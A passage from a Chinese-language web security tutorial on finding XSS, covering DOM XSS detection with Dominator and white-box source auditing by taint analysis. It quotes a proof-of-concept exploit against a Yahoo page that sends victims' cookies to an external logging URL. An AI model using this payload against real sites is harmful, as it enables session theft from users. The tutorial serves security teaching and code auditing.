 以之前一些 Yahoo DOM XSS 为例，当你用 Dominator 访问了存在漏洞的页面后，可以看到其输出的告警内容如下：


<Image alt="Drawing 9.png" src="https://s0.lgstatic.com/i/image/M00/8B/CC/CgqCHl_gO_CARQ8zAARc2hmr8mY249.png"/> 
  
图 10：用 Dominator 检测 DOM XSS

提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS 代码的执行。利用起来也非常简单，我们可以看下漏洞发现者 Abysssec 公司发布的利用代码：

```javascript
<html>
<script>
window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie);
setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);';
location.href="http://adspecs.yahoo.com/index.php";
</script>
</html>
```

利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href 跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现了不少，也是用 Dominator 挖掘到的，所以个人比较推荐。

#### 白盒测试

如果我们有网站源码，就可以直接通过分析源码来挖掘漏洞。网站开发语言非常多， JavaScript、PHP、Python、Go、C/C++等等都可以用来开发网站的前端和后端。不同的语言有不同的特性，在源码审计时需要采取不同的检测点，但有一个共同的思路，那就是**污点分析的检测思路**。

前面我已经简单地提到污点分析原理就是检测用户可控的输入数据，污点也就是用户可控的输入数据。然后我们去追踪污点的传播过程，检测是否传递给危险的输出函数。对于 XSS 就是能够控制页面内容或者执行 JS 的输出函数有 echo、eval等。

有时我们也会反着来：先查看一些危险的输出函数，再回溯它的参数传递，判断是否有未经过滤的用户输入数据，若有就代表可能存在漏洞。其他漏洞类型，以及其他编程语言的代码审计方式都是相通的，只是有不同的 sinks 和过滤函数需要作为检测点。


<Image alt="图片11.png" src="https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfG2AJevWAAGvhSxGKxk804.png"/> 
  
图 11：污点分析流程

以 PHP 源码审计为例，常见的污点 source 有以下这些：


<Image alt="图片14.png" src="https://s0.lgstatic.com/i/image/M00/8C/36/Ciqc1F_pfHaAfNXbAADXUYehbs4744.png"/> 


关于 XSS 常见的污点触发位置 sink 有以下这些：


<Image alt="图片15.png" src="https://s0.lgstatic.com/i/image/M00/8C/41/CgqCHl_pfH-AN_QGAAE9xCbnNNc546.png"/> 


我在审计代码时，习惯使用 VSCode 和 Sublime，你可以根据自己的喜好选择一款合适的代码阅读软件，然后批量搜索文件中的 sink 位置，再往上回溯追踪是否有引入 source 污染数据；若引入了，有没有做好过滤转义等安全工作。

关于 DOM XSS 的审计，主要是针对 JS 代码的审计，关于它的 srouces \& sinks，我已在《**04｜XSS：劫持身份的惯犯**》的图 14 中给出，此处不再赘述；你也可以按照污点分析的思路去做 JS 代码审计。

主流的自动化源码审计工具有 RIPS、Coverity、CheckMarx 等等，都是一些商业软件。近两年也有一些优秀的开源项目贡献，比如 [Kunlun-M](https://github.com/LoRexxar/Kunlun-M)，目前作者仍在更新维护中。如果你或者你所在的公司没有条件采购商业软件，这也是一个不错的选择。
